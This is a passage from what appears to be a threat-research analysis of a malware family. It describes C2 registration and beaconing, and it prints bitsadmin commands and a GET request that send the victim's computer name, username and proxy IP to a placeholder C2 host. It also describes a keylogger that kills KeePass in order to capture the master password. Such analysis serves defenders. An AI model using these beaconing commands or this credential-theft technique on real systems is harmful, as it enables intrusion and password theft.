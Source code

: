 The expected server response acknowledging registration is:





3
LOK
0




123

3LOK0





Issues an additional beacon to the C2 server by using Microsoft’s BITS administration utility with the following commands:





> bitsadmin /cancel pdj
> bitsadmin /create pdj
> bitsadmin /SetPriority pdj HIGH
> bitsadmin /addfile pdj "hxxp://[C2 address]/i.php?u=[computername]-[username]&i=[proxy ip]" %PUBLIC%\AppData\Libs\p.b
> bitsadmin /resume pdj




12345

> bitsadmin /cancel pdj> bitsadmin /create pdj> bitsadmin /SetPriority pdj HIGH> bitsadmin /addfile pdj "hxxp://[C2 address]/i.php?u=[computername]-[username]&i=[proxy ip]" %PUBLIC%\AppData\Libs\p.b> bitsadmin /resume pdj




The purpose of this part is not entirely clear, but we think it’s probably used to bypass a potential proxy server in the victim network, thus providing the C2 with the victim’s IP.
Starts a keylogger with all keystrokes and clipboard content being stored locally in the aforementioned .nfo file, exfiltrated to the C2 using the same URL described previously in the POST request. It is interesting to note that an active Keepass (password manager) process gets killed before starting the keylogger. This is likely intended to force the user to restart the program and enter a master password that is then stolen via the keylogger.

Following these actions, the malware initiates a thread to constantly beacon the C2, waiting to receive commands and executing them accordingly. The beacon request is issued with the following request:





GET hxxp://[C2 address]/ech/echo.php?req=rr&u=[computername]_[username]




1
